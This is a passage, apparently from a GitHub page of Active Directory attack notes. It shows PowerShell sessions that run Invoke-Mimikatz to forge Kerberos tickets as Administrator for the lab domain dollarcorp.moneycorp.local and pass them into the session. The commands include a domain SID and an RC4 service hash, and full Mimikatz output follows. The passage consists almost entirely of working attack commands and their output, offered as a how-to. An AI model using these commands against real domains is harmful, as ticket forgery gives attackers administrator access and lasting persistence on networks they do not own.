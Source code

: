 #### Example

* First create your ticket(s) in a powershell (1)

```
PS C:\AD\Tools\tickets> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:host /rc4:4a06e5988918bc0a64747d0881823fac /user:Administrator /ptt"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:host /rc4:4a06e5988918bc0a64747d0881823fac /user:Administrator /ptt
User      : Administrator
Domain    : dollarcorp.moneycorp.local (DOLLARCORP)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4a06e5988918bc0a64747d0881823fac - rc4_hmac_nt
Service   : host
Target    : dcorp-dc.dollarcorp.moneycorp.local
Lifetime  : 1/25/2021 6:47:11 AM ; 1/23/2031 6:47:11 AM ; 1/23/2031 6:47:11 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ dollarcorp.moneycorp.local' successfully submitted for current session

PS C:\AD\Tools\tickets> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc /service:host /rc4:4a06e5988918bc0a64747d0881823fac /user:Administrator /ptt"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc /service:host /rc4:4a06e5988918bc0a64747d0881823fac /user:Administrator /ptt
User      : Administrator
Domain    : dollarcorp.moneycorp.local (DOLLARCORP)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4a06e5988918bc0a64747d0881823fac - rc4_hmac_nt
Service   : host
Target    : dcorp-dc
Lifetime  : 1/25/2021 6:47:30 AM ; 1/23/2031 6:47:30 AM ; 1/23/2031 6:47:30 AM
-> Ticket : ** Pass The Ticket **

```